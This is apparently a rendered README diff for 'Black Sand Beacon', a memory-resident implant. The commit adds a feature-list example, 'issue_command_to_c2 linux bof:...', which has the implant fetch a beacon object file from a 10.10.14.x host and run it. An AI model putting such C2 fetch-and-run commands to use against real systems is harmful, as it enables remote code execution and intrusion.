

Before and after one commit to grisuno/blacksandbeacon, a Markdown page: README.md, the part around the change. GitHub-like rendering.

```diff
--- a/README.md
+++ b/README.md
@@ -7,6 +7,8 @@ Black Sand Beacon — a lightweight, memory-resident micro beacon or implant for
 
 - Command execution
 - Bof Execution
+  - issue_command_to_c2 linux bof:https://10.10.14.57/whoami.x64.o
+
 
 
 ## 📱 System Architecture
```
